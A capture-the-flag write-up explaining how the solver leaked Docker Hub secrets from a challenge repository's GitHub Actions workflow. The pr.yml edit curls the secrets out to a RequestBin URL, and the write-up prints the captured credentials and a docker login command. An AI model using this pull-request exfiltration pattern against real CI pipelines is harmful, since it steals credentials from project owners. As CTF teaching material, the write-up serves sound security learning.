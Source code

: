 GitHub [50 pts]
=================

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
We've heard Shou, except from his server, also loves Docker containers. You have gained Shou's trust and asked to help him further develop his project. We task you to spy on him and retrieve his beloved container. Get yourself added to his GitHub repo here (http://github.ctf.so/)

Note: Container is of name "flag"

Hint: https://docs.docker.com/docker-hub/access-tokens/
```

Tags: `Troll`

Setup
-----

Upon clicking the http://github.ctf.so/ link, we were presented with a page asking for our GitHub username to be added to a project as a contributor. I entered my username, [dayt0n](https://github.com/dayt0n) and then received an email asking if I wanted to become a collaborator:

![invite](./invite.png)

Once the invitation was accepted, we were granted access to the repo:

![repo](./repo.png)

Solution
--------

The `README.md` file describes the repo as "A really welcoming repo that greets you when you do pull request."

[GitHub Actions](https://docs.github.com/en/actions) are a tool within GitHub to automate certain processes when a condition is met. In this instance, it looks like the repo runs an Action each time a pull request is done. 

The Actions for this repo can be viewed in the `.github/workflows` directory. Two files appear in this directory, `pr.yml` and `docker.yml`.

`pr.yml` has the following contents:

```yaml
name: Say Hi

on: [pull_request]

jobs:
  build:

    runs-on: ubuntu-latest

    steps:
    - uses: actions/checkout@v2
    - name: Say Hi
      run: |
        echo "hi!!"
```

So it looks like this file is the one that runs on every pull request. The only command that is executed is the `echo` command that greets the user. 

[docker.yml](./production-a8abd579-b812-43e2-8d96-4299ad80033b/.github/workflows/docker.yml) has some more interesting data:

```yaml
name: Publish Docker
on: [release]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@master
    - name: Publish to Registry
      uses: elgohr/Publish-Docker-Github-Action@master
      with:
        name: wectfchall/poop
        username: ${{ secrets.DOCKER_USERNAME }}
        password: ${{ secrets.DOCKER_PASSWORD }}
```

It looks like on every new release for the GitHub repo, the image is published to the official Docker registry [here](https://hub.docker.com/r/wectfchall/poop) using credentials stored in GitHub encrypted secrets.

GitHub encrypted secrets "allow you to store sensitive information in your organization, repository, or repository environments" (https://docs.github.com/en/actions/reference/encrypted-secrets). 

Knowing this, the plan of attack looks like we just need to leak the `${{ secrets.DOCKER_USERNAME }}` and `${{ secrets.DOCKER_PASSWORD }}` variables to the output of the Action. To do this, all that is needed is to fork the repo and modify the `echo "hi!!"` command in `pr.yml` using the following data:

```yaml
- uses: actions/checkout@v2
    - name: Say Hi
      run: |
        echo "${{ secrets.DOCKER_USERNAME }} : ${{ secrets.DOCKER_PASSWORD }}"
```

Now, all that is left is to make a commit to the forked repo and initiate a pull request to the original repo.

Then, we can just view the Actions console to see the...

![censored](./censored.png)

So that didn't work out as planned. 

After taking a closer look at the [GitHub Encrypted Secrets documentation](https://docs.github.com/en/actions/reference/encrypted-secrets), a giant red warning became apparent: 

![warning](./warning.png)

This explains why the output was censored. That is no issue though, since we can just exfiltrate the data using a `curl` request to a [RequestBin](https://requestbin.io/).

[pr.yml](production-a8abd579-b812-43e2-8d96-4299ad80033b/.github/workflows/pr.yml) job is changed to: 
```yaml
- uses: actions/checkout@v2
    - name: Say Hi
      run: |
        curl "https://requestbin.io/1jur7g91?username=${{ secrets.DOCKER_USERNAME }}&password=${{ secrets.DOCKER_PASSWORD }}"
```

After adding the changes to the previous pull request, the result of the `curl` command can be seen on the RequestBin:

![requestbin result](./requestbin.png)

Docker credentials:
  * username: `wectfchall`
  * password: `c3f6a063-4cff-442e-81d7-1febe6d94cea`

To pull the `flag` container, we must first login as `wectfchall` within the docker command-line application using the following command:

```bash
$ docker login --username wectfchall --password c3f6a063-4cff-442e-81d7-1febe6d94cea
```

Finally, the `flag` container can be pulled and run using:

```bash
$ docker run -it wectfchall/flag
```

![flag](flag.png)

Flag: `we{a007761c-c4cb-47f4-9d6c-c194f3168302@G4YHub_Ac7i0n_3ucks}`